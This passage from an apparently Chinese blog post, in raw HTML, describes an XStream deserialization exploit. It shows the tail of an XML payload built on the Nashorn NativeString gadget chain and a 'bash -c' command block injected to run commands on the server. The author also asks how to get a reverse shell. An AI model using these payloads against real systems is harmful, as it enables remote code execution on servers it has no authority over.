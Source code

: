 <span class="hljs-tag">&lt;/<span class="hljs-title">dataHandler</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">dataLen</span>&gt;</span>0<span class="hljs-tag">&lt;/<span class="hljs-title">dataLen</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">value</span>&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">jdk.nashorn.internal.objects.NativeString</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">jdk.nashorn.internal.objects.NativeString</span> <span class="hljs-attribute">reference</span>=<span class="hljs-value">"../jdk.nashorn.internal.objects.NativeString"</span>/&gt;</span> <span class="hljs-tag">&lt;/<span class="hljs-title">entry</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">entry</span>&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">jdk.nashorn.internal.objects.NativeString</span> <span class="hljs-attribute">reference</span>=<span class="hljs-value">"../../entry/jdk.nashorn.internal.objects.NativeString"</span>/&gt;</span> <span class="hljs-tag">&lt;<span class="hljs-title">jdk.nashorn.internal.objects.NativeString</span> <span class="hljs-attribute">reference</span>=<span class="hljs-value">"../../entry/jdk.nashorn.internal.objects.NativeString"</span>/&gt;</span> 
<span class="hljs-tag">&lt;/<span class="hljs-title">entry</span>&gt;</span> 
<span class="hljs-tag">&lt;/<span class="hljs-title">map</span>&gt;</span></span></code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170907214053546?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170907215920821?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h2 id="0x3-攻击后续">0x3 攻击后续</h2>
<p>其实在正真测试的时候已近发现了一些指令受了限制，但是一开始并没有进行研究，今天瞅了一眼freebuf文章，看是已经能够执行任何指令，这里是<a href="http://www.freebuf.com/vuls/147017.html">连接</a></p>
<p>我在这也是实验了一发，试了一下文中说的其他指令，但唯独shell反弹没有成功</p>
<p>文中主要说的利用方法是利用bash -c指令 <br>
具体格式如下</br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver">&lt;<span class="hljs-command"><span class="hljs-keyword">command</span>&gt;</span>
&lt;<span class="hljs-keyword">string</span>&gt;bash&lt;/<span class="hljs-keyword">string</span>&gt;
&lt;<span class="hljs-keyword">string</span>&gt;-c&lt;/<span class="hljs-keyword">string</span>&gt;
&lt;<span class="hljs-keyword">string</span>&gt;echo asd &gt;/tmp/<span class="hljs-number">4</span>ct10n&lt;/<span class="hljs-keyword">string</span>&gt;
&lt;/<span class="hljs-command"><span class="hljs-keyword">command</span>&gt;</span></code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170908174121558?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p>怎么反弹shell …….  ，在线等</p>
<h1 id="0x02-漏洞分析">0x02 漏洞分析</h1>
<p>未完待续</p></div>